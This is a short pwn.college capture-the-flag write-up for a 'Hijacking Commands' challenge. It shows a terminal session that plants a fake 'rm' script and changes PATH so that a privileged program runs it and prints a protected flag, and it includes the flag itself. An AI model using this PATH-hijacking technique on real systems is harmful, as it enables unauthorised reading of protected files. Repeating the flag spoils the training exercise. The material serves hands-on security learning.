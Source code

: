 # Hijacking Commands
### The challenge asks us to hijack commands


## My Solve
**Flag:** pwn.college{87xFAs_GXDgyvPqpPsb6seO4gNq.QX3cjM1wSO1EzNzEzW}
Used cd to change cwd to the directory i created then made my own rm 
by making it run the flag which i did by using echo '/run/dojo/bin/cat /flag' >> rm
then put echo 'exit 0' >> rm so that theres no unexpected file end then made it 
so that it is executable by anyone using chmod a+x then set PATH to myscripts directory
which i created in the previous challenges then ran /challenge/run to get the flag

```
hacker@path~hijacking-commands:~$ cd ~/myscripts
hacker@path~hijacking-commands:~/myscripts$ echo '#!/bin/bash' > rm
hacker@path~hijacking-commands:~/myscripts$ echo '/run/dojo/bin/cat /flag' >> rm
hacker@path~hijacking-commands:~/myscripts$ echo 'exit 0' >> rm
hacker@path~hijacking-commands:~/myscripts$ chmod a+x  /home/hacker/myscripts/rm
hacker@path~hijacking-commands:~/myscripts$ cd
hacker@path~hijacking-commands:~$ PATH=/home/hacker/myscripts
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{87xFAs_GXDgyvPqpPsb6seO4gNq.QX3cjM1wSO1EzNzEzW}
```

## What I Learned
I learned how to hijack commands

## References
None